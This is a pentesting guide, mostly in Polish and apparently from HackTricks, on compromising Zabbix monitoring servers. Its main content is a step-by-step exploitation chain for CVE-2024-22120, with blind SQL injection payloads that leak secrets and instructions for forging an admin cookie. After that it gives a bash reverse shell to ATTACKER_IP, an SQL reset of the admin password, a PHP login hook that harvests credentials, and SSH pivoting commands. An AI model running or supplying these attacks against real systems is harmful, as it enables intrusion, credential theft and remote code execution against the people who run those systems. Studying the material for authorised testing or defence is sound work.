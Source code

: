 # Zabbix — Bezpieczeństwo

{{#include ../../banners/hacktricks-training.md}}

## Przegląd

Zabbix to platforma monitoringu udostępniająca web UI (zazwyczaj za Apache/Nginx) oraz komponent serwera, który rozmawia protokołem Zabbix na TCP/10051 (server/trapper) oraz agentem na TCP/10050. Podczas engagements możesz natknąć się na:

- Web UI: HTTP(S) virtual host like zabbix.example.tld
- Zabbix server port: 10051/tcp (JSON over a ZBXD header framing)
- Zabbix agent port: 10050/tcp

Przydatny format cookie: zbx_session jest Base64 skompaktowanego obiektu JSON, który zawiera co najmniej sessionid, serverCheckResult, serverCheckTime i sign. sign jest HMAC ładunku JSON.

## zbx_session cookie internals

Nowsze wersje Zabbix tworzą cookie w sposób:

- data JSON: {"sessionid":"<32-hex>","serverCheckResult":true,"serverCheckTime":<unix_ts>}
- sign: HMAC-SHA256(key=session_key, data=JSON string of data sorted by keys and compact separators)
- Final cookie: Base64(JSON_with_sign)

Jeśli uda Ci się odzyskać globalny session_key i prawidłowy admin sessionid, możesz offline sfałszować ważne Admin cookie i uwierzytelnić się w UI.

## CVE-2024-22120 — Time-based blind SQLi in Zabbix Server audit log

Dotknięte wersje (zgodnie z publiczną dokumentacją):

- 6.0.0–6.0.27, 6.4.0–6.4.12, 7.0.0alpha1

Podsumowanie podatności:

- Gdy Script execution jest zapisywane w logu audytu Zabbix Server, pole clientip nie jest sanitizowane i jest konkatenowane do SQL, co umożliwia time-based blind SQLi przez komponent serwera.
- Można to wykorzystać wysyłając spreparowane żądanie "command" do portu Zabbix server 10051 z ważnym niskoprzywilejowym sessionid, hostid, do którego użytkownik ma dostęp, oraz dozwolonym scriptid.

Warunki wstępne i wskazówki do wykrywania:

- sessionid: Z guest/login w web UI, zdekoduj zbx_session (Base64), aby uzyskać sessionid.
- hostid: Obserwuj przez zapytania web UI (np. Monitoring → Hosts) lub przechwyć z proxy; częsty domyślny to 10084.
- scriptid: Tylko skrypty dozwolone dla bieżącej roli zostaną wykonane; zweryfikuj to, przeglądając menu skryptów/odpowiedzi AJAX. Domyślne jak 1 lub 2 są często dozwolone; 3 może być odrzucone.

### Przebieg eksploatacji

1) Wywołaj insert audytu z SQLi w clientip

- Połącz się do TCP/10051 i wyślij Zabbix framed message z request="command" zawierający sid, hostid, scriptid oraz clientip ustawiony na wyrażenie SQL, które zostanie skonkatentowane przez serwer i ocenione.

Minimalne pola wiadomości (ciało JSON):
```json
{
"request": "command",
"sid": "<low-priv-sessionid>",
"scriptid": "1",
"clientip": "' + (SQL_PAYLOAD) + '",
"hostid": "10084"
}
```
Pełny wire format to: "ZBXD\x01" + 8-byte little-endian length + UTF-8 JSON. Możesz użyć pwntools lub własnego kodu socket, aby to opakować.

2) Time-bruteforce secrets via conditional sleep

Użyj wyrażeń warunkowych, aby leak hex-encoded secrets po jednym znaku, mierząc czas odpowiedzi. Przykłady, które działały w praktyce:

- Leak global session_key from config:
```sql
(select CASE WHEN (ascii(substr((select session_key from config),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```
- Leak session_id administratora (userid=1) z sessions:
```sql
(select CASE WHEN (ascii(substr((select sessionid from sessions where userid=1 limit 1),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```
Uwagi:

- charset: 32 hex chars [0-9a-f]
- Wybierz T_TRUE >> T_FALSE (np. 10 vs 1) i mierz wall-clock na próbę
- Upewnij się, że Twój scriptid jest faktycznie autoryzowany dla użytkownika; w przeciwnym razie nie powstanie wiersz audytu i pomiary czasu nie zadziałają

3) Sfałszuj cookie Admin

Gdy posiadasz:

- session_key: 32-hex from config.session_key
- admin_sessionid: 32-hex from sessions.sessionid for userid=1

Oblicz:

- sign = HMAC_SHA256(key=session_key, data=json.dumps({sessionid, serverCheckResult:true, serverCheckTime:now}, sort by key, compact))
- zbx_session = Base64(JSON_with_sign)

Ustaw cookie zbx_session na tę wartość i wykonaj GET /zabbix.php?action=dashboard.view, aby zweryfikować dostęp Admin.

### Gotowe narzędzia

- Public PoC automatyzuje: bruteforce of session_key and admin sessionid, and cookie forging; requires pwntools and requests.
- Typowe parametry do podania to: --ip (FQDN of UI), --port 10051, --sid (low-priv), --hostid, oraz opcjonalnie znany --admin-sid, aby pominąć brute.

## RCE via Script execution (post-Admin)

Mając uprawnienia Admin w UI, możesz uruchamiać zdefiniowane Scripts na monitorowanych hostach. Jeśli agenci/hosty wykonują polecenia skryptów lokalnie, daje to wykonanie kodu na tych systemach (często jako użytkownik zabbix na hostach Linux):

- Szybka weryfikacja: uruchom id, aby potwierdzić kontekst użytkownika
- Przykład reverse shell:
```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'
```
Ulepszenie TTY (Linux):
```bash
script /dev/null -c bash
# background with Ctrl+Z, then on attacker terminal:
stty raw -echo; fg
reset
```
Jeśli masz DB access, alternatywą dla sfałszowania cookie jest zresetowanie hasła Admin do udokumentowanego bcrypt dla "zabbix":
```sql
UPDATE users SET passwd='$2a$10$ZXIvHAEP2ZM.dLXTm6uPHOMVlARXX7cqjbhM6Fn0cANzkCQBWpMrS' WHERE username='Admin';
```
## Przechwytywanie poświadczeń poprzez login hook (post-exploitation)

Jeśli na serwerze web UI możliwy jest zapis plików, możesz tymczasowo dodać fragment logujący do /usr/share/zabbix/index.php wokół bloku logowania opartego na formularzu, aby przechwycić poświadczenia:
```php
// login via form
if (hasRequest('enter') && CWebUser::login(getRequest('name', ZBX_GUEST_USER), getRequest('password', ''))) {
$user = $_POST['name'] ?? '??';
$password = $_POST['password'] ?? '??';
$f = fopen('/dev/shm/creds.txt','a+'); fputs($f, "$user:$password\n"); fclose($f);
CSessionHelper::set('sessionid', CWebUser::$data['sessionid']);
}
```
Użytkownicy uwierzytelniają się normalnie; odczytaj /dev/shm/creds.txt później. Usuń hook po zakończeniu.

## Pivoting to internal services

Nawet jeśli shell konta serwisowego to /usr/sbin/nologin, dodanie wpisu SSH authorized_keys i użycie -N -L pozwala na local port-forwarding do loopback-only services (np. CI/CD na 8111):
```bash
ssh -i key user@host -N -L 8111:127.0.0.1:8111
```
Zobacz więcej wzorców tunelowania: Sprawdź [Tunneling and Port Forwarding](../../generic-hacking/tunneling-and-port-forwarding.md).

## Wskazówki operacyjne

- Zweryfikuj, czy scriptid jest dozwolony dla bieżącej roli (guest może mieć ograniczony zestaw)
- Timing brute może być wolny; przechowaj odzyskany admin sessionid i użyj go ponownie
- JSON wysyłany do 10051 musi być opakowany nagłówkiem ZBXD\x01 i długością w little-endian

## Źródła

- [HTB Watcher — Zabbix CVE-2024-22120 to Admin/RCE and TeamCity root pivot](https://0xdf.gitlab.io/2025/10/09/htb-watcher.html)
- [CVE-2024-22120-RCE toolkit (PoC scripts)](https://github.com/W01fh4cker/CVE-2024-22120-RCE)

{{#include ../../banners/hacktricks-training.md}}
